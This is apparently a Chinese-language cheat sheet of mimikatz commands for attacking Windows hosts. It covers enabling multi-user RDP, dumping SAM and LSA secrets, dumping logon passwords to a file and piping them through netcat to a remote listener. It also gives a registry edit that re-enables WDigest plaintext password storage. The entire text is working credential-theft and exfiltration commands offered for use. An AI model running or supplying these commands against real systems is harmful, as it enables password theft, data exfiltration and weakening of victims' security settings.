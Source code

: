 `允许多用户登录`
    
    mimikatz.exe,执行ts::multirdp允许多用户远程登录 重启失效
`获取Windows VPN 密码`  

    mimikatz.exe privilege::debug token::elevate lsadump::sam lsadump::secrets exit
`mimikatz执行结果输出到文件`
    
    C:\>mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt
`mimikatz执行结果输出到远程计算机(目标要上传nc)`

    local:E:\>nc -lvp 4444
    target:C:\>mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit | nc.exe -vv 192.168.52.1 4444 
    
    
`Tips:`

    2012抓明文需要HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest的"UseLogonCredential"设置为1，类型为DWORD 32才可以
    
    reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1

    
   
    
    

